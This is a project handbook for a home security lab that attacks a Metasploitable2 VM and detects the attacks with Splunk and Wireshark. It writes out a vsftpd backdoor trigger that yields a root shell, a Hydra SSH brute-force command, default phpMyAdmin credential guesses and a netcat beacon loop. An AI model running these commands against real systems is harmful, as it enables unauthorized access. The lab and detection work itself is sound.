# Project Handbook — Network Threat Simulation and Incident Validation Lab

This handbook is the complete, detailed walkthrough of this project from environment setup through all four scenarios to the final published repository — including every failure, troubleshooting step, and fix encountered along the way. The main [README](README.md) is the polished summary; this document is the full story behind it.

---

## Table of Contents

- [Environment Setup](#environment-setup)
- [Scenario 1: Network Reconnaissance and Port Scanning](#scenario-1-network-reconnaissance-and-port-scanning)
- [Scenario 2: SSH Brute Force Detection](#scenario-2-ssh-brute-force-detection)
- [Scenario 3: HTTP Path Enumeration](#scenario-3-http-path-enumeration)
- [Scenario 4: Periodic Outbound Beacon](#scenario-4-periodic-outbound-beacon)
- [Publishing to GitHub](#publishing-to-github)
- [Consolidated Troubleshooting Log](#consolidated-troubleshooting-log)

---

## Environment Setup

The lab runs on VirtualBox using an Internal Network ("labnet") connecting two VMs: Kali Linux (attacker, `192.168.50.10`) and Metasploitable2 (target, `192.168.50.20`). This network is fully isolated — no bridge to the host adapter, no internet access. Splunk Enterprise runs separately on the Windows host machine, reached via a second, host-only adapter on Metasploitable2 (`192.168.56.20`).

**Recurring issue across every session:** both VM IPs reset to nothing on every reboot and had to be manually re-added before any scenario could begin:

```bash
sudo ip addr add 192.168.50.10/24 dev eth0   # on Kali
sudo ip addr add 192.168.50.20/24 dev eth0   # on Metasploitable2
sudo ip link set eth0 up
```

**A recurring trap within this issue:** on at least one occasion, Kali's IP was accidentally set to `.20` (the same address as the target) during troubleshooting after a reboot. This causes `ping` to falsely report success (Kali is simply pinging itself), while `curl`/HTTP/SSH connections fail outright. This was diagnosed each time by running:

```bash
ip addr show | grep 192.168.50
```

and checking whether Kali showed `.20` instead of `.10`. When it did, the fix was:

```bash
sudo ip addr del 192.168.50.20/24 dev eth0
sudo ip addr add 192.168.50.10/24 dev eth0
```


*Diagnosing the IP conflict — Kali showing `.20` instead of `.10` after a reboot.*


*The conflict resolved — Kali correctly reassigned to `.10`.*


*Ping confirming connectivity restored between Kali and the target after the fix.*

This issue recurred across multiple scenarios (most notably before Scenario 3 and again before Scenario 4) since it happens on every VM reboot, not just once.

---

## Scenario 1: Network Reconnaissance and Port Scanning

**Objective:** simulate an attacker's initial reconnaissance phase using Nmap, validate the scan at the packet level with Wireshark, and confirm exploitability of any backdoored services discovered.

**Command run:**
```bash
nmap -sT -sV 192.168.50.20
```

**Result:** 23 of 1,000 scanned ports open, completed in 15.32 seconds. Full output:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```



*Full terminal output of the Nmap scan.*

**Wireshark validation:** filter `ip.addr==192.168.50.20 && tcp.flags.syn==1 && tcp.flags.ack==0` confirmed a burst of SYN packets from `192.168.50.10` starting roughly 2.6 seconds into the capture, spread across non-sequential destination ports — matching Nmap's default port-randomization behavior.


*Wireshark confirming the scan's SYN packet burst at the packet level.*

**Exploitation — vsftpd 2.3.4 backdoor (CVE-2011-2523):** three of the 23 open services were pre-existing backdoors, not caused by the scan itself: the vsftpd backdoor on port 21, an UnrealIRCd backdoor on port 6667 (not tested), and a pre-existing root bindshell already listening on port 1524 requiring no exploitation at all.

The vsftpd backdoor was triggered by logging into FTP with a username containing `:)`, followed by a connection to port 6200:

```bash
ftp 192.168.50.20
Name: rithika:)
Password: [any value]
```
```bash
nc 192.168.50.20 6200
```

**Failure encountered:** the first three trigger attempts returned `Connection refused`. The fourth attempt succeeded, dropping into a root shell with no authentication. This inconsistency suggests the backdoor's trigger is timing-sensitive rather than reliably reproducible — a real observed behavior not documented in the original CVE writeups.

```
whoami
root
hostname
metasploitable
id
uid=0(root) gid=0(root)
```


*Confirmed root access via `whoami` returning `root`.*


*Further confirmation via `hostname` and `id` showing `uid=0(root)`.*

**Splunk correlation:** not pursued for this scenario. Metasploitable2 does not log incoming connection attempts by default, and no additional log source was introduced to capture this activity — detection and validation relied on Wireshark and Nmap output alone. This scope decision is documented in the scenario's own README.

**MITRE ATT&CK:** T1595 (Active Scanning), T1046 (Network Service Discovery).

Full writeup: [`scenarios/01-network-reconnaissance/README.md`](scenarios/01-network-reconnaissance/README.md)

---

## Scenario 2: SSH Brute Force Detection

**Objective:** simulate a brute-force SSH attack, detect it in Splunk using a volume-based threshold query, and independently validate the finding with Wireshark.

**Attack command (run in a prior session):**
```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.20
```
This produced 1,694 failed login entries in `/var/log/auth.log`, saved as `attack_sample3.log`.

**Failure encountered — Splunk account expired:** the original Splunk account used to build the detection query had expired, and all previously ingested data and the original SPL query text were lost. A new 60-day Splunk Enterprise trial had to be provisioned from scratch before this scenario could resume.

**Uploading the log to Splunk:** via Add Data → Upload. Splunk's automatic sourcetype detection did not correctly identify the log format, so the sourcetype was manually overridden to `linux_secure`.

**Ingestion confirmed:**
```
index=main sourcetype=linux_secure
```
1,698 events landed — closely matching the 1,694 original failed attempts (small discrepancy attributed to a few non-attempt lines in the filtered file).


*Confirming 1,698 events successfully ingested.*


*A single expanded event confirming the log format matches expectations: `Failed password for msfadmin from 192.168.50.10 port 33152 ssh2`.*

**Detection query built from scratch** (the original session's query text had not been saved):
```spl
index=main sourcetype=linux_secure "Failed password"
| rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+)"
| bin _time span=5m
| stats count by src_ip, _time
| where count > 5
```

**Failure encountered — query duplicated in search bar:** the first attempt to run this query returned a syntax error (`Error in 'where' command: The operator ... is invalid`). Inspection of the Job Inspector URL revealed the new query text had been appended to leftover text still sitting in the search bar rather than replacing it. Fixed by clearing the search bar completely before pasting the query fresh.

**Result:** two rows returned, both from `192.168.50.10` — 1,041 failures in one 5-minute window, 653 in the next, totaling 1,694, an exact match to the original attack log.


*The working detection query and its two threshold-breaching results.*

**Building the alert:** a scheduled alert ("SSH Brute Force Detection") was configured on this query.

**Failure encountered — alert save error:** the first save attempt failed with "enable at least one action." This same error had occurred in a prior session as well. Root cause: Splunk requires at least one trigger action configured before an alert can be saved. Resolved by adding a trigger action (Add to Triggered Alerts) before saving again.


*The alert successfully saved and enabled after adding a trigger action.*

**Independent Wireshark validation:** to confirm the finding outside of Splunk, a short live re-run of the same Hydra command was captured on Kali's eth0 interface, filtered on `ip.addr==192.168.50.20 && tcp.port==22`.

**Result:** 1,679 packets matched the filter — closely matching the log-based failure count and confirming the finding at the network level.


*1,679 packets independently confirming the SSH brute-force traffic pattern.*

**Note on the underlying data:** the ingested log data spanned two calendar days (July 4 and July 5) rather than a single tight window — this was not fully resolved during the investigation, and it's unclear whether this reflects multiple attack runs concatenated into one log file or a single longer session than initially assumed.

**MITRE ATT&CK:** T1110.001 (Brute Force: Password Guessing), T1021.004 (Remote Services: SSH).

Full writeup: [`scenarios/02-ssh-brute-force/README.md`](scenarios/02-ssh-brute-force/README.md)
Full incident report: [`incident-reports/incident-report-01.md`](incident-reports/incident-report-01.md)

---

## Scenario 3: HTTP Path Enumeration

**Objective:** simulate web path enumeration against the target's web service, validate at the packet level with Wireshark, and investigate any discovered paths.

**Failure encountered — IP conflict, again:** before this scenario could begin, the same IP-conflict issue from Environment Setup recurred: Kali was accidentally reassigned to `192.168.50.20` after a reboot, causing `ping` to falsely succeed while HTTP failed outright. Diagnosed and fixed the same way as before.

**Command run:**
```bash
gobuster dir -u http://192.168.50.20 -w /usr/share/wordlists/dirb/common.txt
```

**Result:** 4,613 paths tested. Notable results: `phpinfo.php` (200), `phpMyAdmin` (301 redirect), `twiki` (301 redirect), plus expected 403s on `.htaccess`/`.htpasswd`/etc.



*Full Gobuster terminal output.*

**Wireshark validation:** filter `http.request && ip.addr == 192.168.50.20` returned 4,615 displayed HTTP requests — matching Gobuster's 4,613 wordlist entries (small overhead from initial handshake/setup traffic).


*Wireshark confirming the request count independently matches Gobuster's output.*

**Finding 1 — phpinfo.php (confirmed positive):** publicly accessible with no authentication, dumping the full PHP configuration — PHP 5.2.4-2ubuntu5.10, Apache 2.2.8, document root `/var/www/`, MySQL client 5.0.51a, Suhosin patch 0.9.6.2. This is a genuine information-disclosure finding requiring no exploitation.

**Finding 2 — phpMyAdmin (confirmed negative):** reachable, confirmed via header check showing a `Last-Modified: Tue, 09 Dec 2008` header. Four common credential combinations were tested (`root`/blank, `root`/`root`, `root`/`msfadmin`, `msfadmin`/`msfadmin`) — all four returned "Access denied."


*Confirming phpMyAdmin is reachable and genuinely outdated, despite the negative credential test result.*

**Finding 3 — TWiki (confirmed negative):** the install was confirmed genuinely outdated via its revision footer ("Revision r1.20 - 02 Feb 2003"). A command injection attempt (CVE-2004-2649) was tested via the `search` parameter — the payload was returned as literal, unexecuted text, confirming no command execution occurred.


*Confirming the TWiki installation's genuine 2003-era revision.*


*The injection payload returned as literal text — confirmed negative finding.*

**Splunk correlation:** not pursued for this scenario, for the same reason as Scenario 1 — no Apache access log was ingested. Detection and validation relied on Gobuster and Wireshark evidence alone.

**MITRE ATT&CK:** T1595.003 (Active Scanning: Wordlist Scanning), T1592 (Gather Victim Host Information).

Full writeup: [`scenarios/03-http-path-enumeration/README.md`](scenarios/03-http-path-enumeration/README.md)

---

## Scenario 4: Periodic Outbound Beacon

**Objective:** simulate malware-style periodic C2 beaconing, detect the timing pattern statistically in Splunk, and validate with Wireshark. This scenario was deliberately chosen over a reverse-shell trigger since it demonstrates a distinct detection technique (timing-pattern analysis) not covered by any other scenario in this lab.

**Setup:**
```bash
# Listener on Kali
nc -lvkp 4444

# Beacon loop on Metasploitable2
while true; do echo beacon | nc -w 2 192.168.50.10 4444; sleep 30; done
```

**Failure encountered — broken paste:** the first attempt to start the beacon loop produced repeated errors: `bash: 4444: command not found` and `no port[s] to connect to`. The command had been split across two lines during paste, with `4444` landing on its own line and being executed as a separate command. Fixed by typing the command manually instead of pasting it.

**Failure encountered — IPs not set after reboot:** both VMs had just been rebooted for this scenario, and neither IP had been re-applied yet. This compounded with the paste error, since `nc` had no route to the target at all. Fixed with the standard IP-reset procedure from Environment Setup.

**Failure encountered — `timeout` not installed:** the original plan was to use `timeout 2 nc ...` to force each connection closed. Metasploitable2's Ubuntu 8.04 base does not have the `timeout` binary. Resolved by using netcat's own built-in `-w 2` flag instead, achieving the same effect.

**Failure encountered — listener `-k` flag not behaving as documented:** `nc -lvkp 4444` is meant to keep listening across multiple connections. In practice, this build of netcat dropped back to a fresh prompt after each connection closed, requiring the listener to be manually restarted for each beacon. This did not affect the underlying Wireshark capture, which ran continuously and independently of the listener's state.

**Failure encountered — full restart required, Wireshark not confirmed running:** partway through initial setup, it became clear Wireshark had not been confirmed actively capturing before the beacon loop and listener were started. Rather than treat the single beacon already observed as valid evidence, the entire test was restarted from scratch: Wireshark capture started and confirmed first, then the listener, then the beacon loop — in that strict order.


*The Kali listener receiving repeated beacon messages, showing the restart pattern caused by the `-k` flag issue.*


*The beacon loop on Metasploitable2, showing the missing `timeout` binary error and later "Connection refused" messages once the listener stopped accepting new connections.*

**Wireshark capture result:** 46 total packets captured, 28 matched the filter `ip.addr==192.168.50.20 && tcp.port==4444`. The first two beacon attempts completed a full handshake and delivered the "beacon" payload successfully. The remaining six attempts were refused (SYN sent, immediate RST-ACK returned) once the listener stopped accepting new connections — but every attempt, successful or refused, occurred on the same ~30-second schedule.


*The first two successful beacon connections, 33.99 seconds apart, showing the complete TCP handshake and payload delivery.*


*The later refused connections, still occurring precisely on schedule despite being rejected.*

**Getting the data into Splunk:** the Wireshark capture was exported as CSV (`File → Export Packet Dissections → As CSV`). Since Kali had no network path to the Windows host running Splunk, the file was transferred by printing its contents to the terminal (`cat`), copying the output, and pasting it into Notepad on Windows, saved with "All Files" type to avoid an unwanted `.txt` extension being appended.

**Detection query:**
```spl
index=main source="scenario4-beacon-connections.csv" Info="*[SYN]*" extracted_Source="192.168.50.20"
| table Time
| sort Time
| delta Time as gap_seconds
| stats avg(gap_seconds) as avg_gap_seconds, stdev(gap_seconds) as stdev_gap_seconds
```

**Result:** average gap of 31.14 seconds, standard deviation of only 1.95 seconds across 8 connection attempts. This was independently recalculated directly from the raw CSV outside of Splunk to confirm accuracy — the numbers matched exactly.


*The timing-based detection query result: 31.14-second average interval, 1.95-second standard deviation.*

**MITRE ATT&CK:** T1071 (Application Layer Protocol), T1571 (Non-Standard Port).

Full writeup: [`scenarios/04-outbound-connection/README.md`](scenarios/04-outbound-connection/README.md)

---

## Publishing to GitHub

The completed repository was pushed to GitHub after all four scenarios were finished.

**Failure encountered — wrong branch name:** the first push attempt failed with `error: src refspec main does not match any`. The local repository's default branch was named `master`, not `main`. Fixed with:
```bash
git branch -M main
git push -u origin main
```

**Failure encountered — non-fast-forward rejection:** the push was rejected with `! [rejected] main -> main (fetch first)`, since GitHub's `main` branch contained one commit ("Update lessons-learned.md") that did not exist in the local history. Investigated with:
```bash
git fetch origin
git --no-pager log origin/main --oneline
git --no-pager show origin/main:lessons-learned.md
```
